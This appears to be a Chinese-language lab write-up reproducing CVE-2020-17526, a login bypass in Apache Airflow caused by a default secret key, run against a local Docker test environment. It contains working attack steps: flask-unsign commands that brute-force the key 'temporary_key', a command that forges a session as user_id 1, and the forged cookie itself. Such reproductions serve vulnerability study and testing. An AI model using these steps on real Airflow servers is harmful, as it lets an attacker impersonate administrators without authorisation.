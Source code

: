 # Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526

## 漏洞描述

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## 环境搭建

Vulhub执行如下命令启动一个Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![image-20220329105609442](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329105609442.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
# 安装flask-unsign
pip install flask-unsign[wordlist]

# 开始爆破
flask-unsign -u -c [session from Cookie]
```

![image-20220329105921359](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329105921359.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image-20220329110052524](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329110052524.png)

新生成的session为：

```
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
```

在浏览器中使用这个新生成的session，可见已成功登录：

![image-20220329110946880](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220329110946880.png)

可以使用Chrome插件[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=zh)对Cookie进行修改。

